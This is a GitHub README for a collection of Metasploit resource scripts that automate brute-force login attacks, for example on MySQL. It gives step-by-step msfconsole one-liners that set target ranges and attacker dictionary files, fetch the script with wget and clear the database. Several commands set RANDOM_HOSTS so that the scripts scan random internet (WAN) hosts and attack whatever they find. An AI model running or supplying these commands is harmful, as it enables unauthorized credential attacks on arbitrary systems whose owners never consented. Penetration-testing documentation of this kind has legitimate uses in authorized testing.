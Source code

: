 ## METASPLOIT RESOURCE FILES

<blockquote>Resource scripts provides an easy way for us to automate repetitive tasks in Metasploit. Conceptually they're just like batch scripts, they contain a set of commands that are automatically and sequentially executed when you load the script in Metasploit. You can create a resource script by chaining together a series of Metasploit console commands or by directly embedding Ruby to do things like call APIs, interact with objects in the database, modules and iterate actions.</blockquote>

![pic](http://i68.tinypic.com/21ovkfm.jpg)

**This repository contains various resource files to assiste in exploitation or metasploit database related issues.**
#### [!] Please read the article about resource scripting [here](https://github.com/r00t-3xp10it/hacking-material-books/blob/master/metasploit-RC%5BERB%5D/metasploit_resource_files.md#metasploit-resource-files)

<br /><br /><br />

#### REMARKS:
**Brute force resource scripts deletes my msfconsole database data at exit (delete host list).**<br />

<blockquote>Brute force rc scripts requires the msf database to be empty, thats the reason why the scripts cleans the database<br />at exit, because the next time it runs, if the database contains any hosts the script will run the attacks againts database<br />hosts (old hosts) and not the hosts found by resource script db_nmap scans.</blockquote>

- The msfconsole database must be empty (**clean**) at resource script execution (**first-time-run**)<br />
`sudo msfconsole -q -x 'hosts -d;services -d;exit -y'`<br /><br />

- To continue populating database with scans, just instruct the rc script to not clean db (**optional**)<br />
`sudo msfconsole -q -x 'setg CLEAN false;setg RANDOM_HOSTS true;setg LIMMIT 600;resource /root/brute_force.rc'`<br /><br />

- To export database contents to database.xml local folder before executing any rc script (**optional | adviced**)<br />
`sudo msfconsole -q -x 'db_export -f xml database.xml;exit -y'`<br /><br />

- All brute force resource scripts will build one logfile in **/root** directory.<br />
`/root/<resource_script_name>.log`<br /><br />

<br /><br /><br />

### USING 'SETG' GLOBAL VARIABLES TO CONFIG RC SCRIPTS

![pic](http://i67.tinypic.com/2wfi88h.png)
**Remark: If the database contains any hosts previous to this scans, then rc script will run attacks againts all hosts in db**<br />

<blockquote>Many of the this brute force rc scripts are written to accept user inputs (setg global variables).<br />This means that users can run this resource scripts in 3 diferent ways:</blockquote>

- execute resource script **( Default scan: 192.168.1.0/24 )**<br />

      msfconsole -r /root/mysql_brute.rc

- instruct the resource script to scan rhosts input by attacker **( Scan: 10.10.10.1 10.10.11.2 )**<br />

      msfconsole -q -x 'setg RHOSTS 10.10.10.1 10.10.11.2;resource /root/mysql_brute.rc'

- instruct the resource script to search in WAN for rhosts with service port open **( Search: WAN for hosts )**<br />

      msfconsole -q -x 'setg RANDOM_HOSTS true;resource /root/mysql_brute.rc'

<br /><br /><br />

> Adicionally to the described settings we can also combine diferent configurations at runtime execution.

- instruct the resource script to search in WAN for rhosts with service port open and limmit the search to 300 rhosts

      msfconsole -q -x 'setg RANDOM_HOSTS true;setg LIMMIT 300;resource /root/mysql_brute.rc'

- instruct the resource script to use attackers dicionary file (absoluct path required)

      msfconsole -q -x 'setg USERPASS_FILE /root/dicionary.txt;resource /root/mysql_brute.rc'

- instruct the resource script to scan rhosts input by attacker, and use the attacker dicionary file 

      msfconsole -q -x 'setg RHOSTS 10.10.10.1 10.10.11.2;setg USERPASS_FILE /root/dicionary.txt;resource /root/mysql_brute.rc'

- instruct the resource script to not clean database at exit, scan WAN for rhosts and limmit search to 600 rhosts

      msfconsole -q -x 'setg CLEAN false;setg RANDOM_HOSTS true;setg LIMMIT 600;resource /root/mysql_brute.rc'

<br /><br /><br />

#### Step-By-Step how to run brute_force.rc script

- 1º download resource script to **/root** folder<br />
`sudo wget https://raw.githubusercontent.com/r00t-3xp10it/resource_files/master/brute_force.rc`<br /><br />

- 2º start postgresql service (**local**)<br />
`sudo service postgresql start`<br /><br />

- 3º clean (**or export**) msfconsole database before runing rc script<br />
`sudo msfconsole -q -x 'hosts -d;services -d;exit -y'`<br />
**OR** export current database to database.xml (local)<br />
`sudo msfconsole -q -x 'db_export -f xml database.xml;exit -y'`<br /><br />

- 4º run brute_force.rc resource script to search hosts on WAN (**limmit to 300 searchs**)<br />
`sudo msfconsole -q -x 'setg RANDOM_HOSTS true;setg LIMMIT 300;resource /root/brute_force.rc'`<br /><br />

<blockquote>Brute force rc scripts requires the msf database to be empty, thats the reason why the scripts cleans the database<br />at exit, because the next time it runs, if the database contains any hosts the script will run the attacks againts database<br />hosts (old hosts) and not the hosts found by resource script db_nmap scans.</blockquote><br />

- 5º To populate the database with scans, just instruct the rc script to not clean db (**optional | not-adviced**)<br />
`msfconsole -q -x 'setg CLEAN false;setg RANDOM_HOSTS true;setg LIMMIT 600;resource /root/brute_force.rc'`<br /><br />

- 6º To export database contents to database.xml local folder (**optional**)<br />
`msf > db_export -f xml database.xml`<br /><br />

### Suspicious Shell Activity RedTeam @2019

<br />

